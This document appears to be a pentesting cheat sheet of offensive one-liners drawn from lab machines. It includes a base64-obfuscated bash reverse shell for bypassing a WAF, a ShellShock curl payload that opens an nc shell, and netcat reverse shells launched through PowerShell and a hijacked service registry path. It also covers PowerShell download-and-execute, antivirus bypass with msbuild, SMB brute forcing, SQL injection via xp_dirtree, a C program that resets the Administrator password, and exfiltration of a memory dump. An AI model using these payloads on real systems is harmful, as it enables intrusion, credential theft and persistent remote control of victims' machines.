 # Miscellaneous

##### Cisco Type 7 Password Hash Crack
```
http://www.ifm.net.nz/cookbooks/cisco-ios-enable-secret-password-cracker.html
```

##### Bruteforce SMB
```
cme smb IP -u users.txt -p passwords.txt
```

##### Bruteforce RID
```
cme smb IP -u USER -p PASSWORD --rid-brute
```

##### Dump memory process
```
prodcump.exe -ma PID file.dmp
```

##### Verb Tampering
```
Change HTTP Method to bypass Authentication or check works or not.
```

##### Bypass WAF replacing spaces with ${IFS}
```
echo${IFS}YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4zLzQ0NDQgMD4mMQo=|base64${IFS}-d|bash
```

##### Uncompile compiled Python File
```
mv backup backup.pyc
uncompyle6 backup.pyc
```

##### Mime magic bytes
`````
echo '89 50 4E 47 0D 0A 1A 0A' | xxd -p -r > mime_shell.php.png (Check Networked)
`````


##### Check CMS
```
wappalyzer http://10.10.10.138/writeup/ | jq
```

##### Scanning magento
```
php magescan.phar scan:all http://IP
```

##### Powershell Runas
```
$username = '<username here>'
$password = '<password here>'
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
Start-Process -FilePath C:\Users\Public\nc.exe -NoNewWindow -Credential $credential -ArgumentList ("10.10.14.9","1234","-e","cmd.exe") -WorkingDirectory C:\Users\Public

```
##### ShellShock
```
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.0.138 4444 >/tmp/f'" http://10.1.10.10/cgi-bin/admin.cgi
```

##### SCP for Windows
```
./pscp.exe -pw '12345' -batch -hostkey 8e:32:52:2e:9c:1d:30:74:2c:56:23:b5:f2:36:d4:87  firefox.exe_191116_172631.dmp  test@10.10.14.4:/home/test/
```

##### SSH Port Forwarding for Windows
```
y:\plink.exe -l userforpf -pw 12345 10.10.14.13 -R 5985:127.0.0.1:5985
```

##### List Services in Registry
```
Get-Childitem HKLM:\SYSTEM\CurrentControlset\Services\wuauserv | format-list
Get-ACL HKLM:\SYSTEM\CurrentControlSet\ | format-list
```
##### Registry Hijacking
```
reg add "HKLM\System\CurrentControlSet\services\seclogon" /t REG_EXPAND_SZ /v ImagePath /d "C:\windows\system32\spool\drivers\color\nc.exe 10.10.14.2 9999 -e cmd" /f
reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlset\Services\seclogon" /v ImagePath
```
##### Juicy Potato
```
juicypotato.exe -l 10000 -p "C:\Windows\system32\cmd.exe" -t * -a "/c whoami > text" -c {6d8ff8e0-730d-11d4-bf42-00b0d0118b56}
```
##### Volatility
```
volatility -f file ---profile=profile lsadump
```

##### Bypass Antivirus in Windows
```
git clone https://github.com/trustedsec/nps_payload.git
cd nps_payload/
pip install -r requirements.txt
python nps_payload.py

C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe \\10.10.14.13\myshare\msbuild_nps.xml

method 2: https://www.n00py.io/2018/06/executing-meterpreter-in-memory-on-windows-10-and-bypassing-antivirus-part-2/
```

##### Samba Share
```
apt-get install samba
cd /etc/samba/
vi smb.conf
```
```
[Guest]
        comment = Guest
        path = /tmp/share/
        browseable = yes
        read only = yes
        guest ok = yes
```

##### Powershell x64
```
C:\Windows\SysNative\WindowsPowershell\v1.0\Powershell -c "IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.13/Invoke-PowerShellTcp.ps1')
```

##### Running ps1
```
powershell.exe -ExecutionPolicy Bypass -File .\JAWS.ps1 -OutputFilename JAWS-Enum.txt
```

##### SQL Server XP_Dirtree
```
1;EXEC master..xp_dirtree '\\10.10.14.3\foo' --
```

##### Service binary path exploitation with custom C exploit
```
int main()
{
system("net user Administrator HackedByAydin123@");
return 0;
}

i686-w64-mingw32-gcc taskkill.c -o taskkill.exe
```

##### Accesschk
```
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
accesschk.exe -qdws "Authenticated Users" C:\Windows\ /accepteula
accesschk.exe -qdws Users C:\Windows\
```






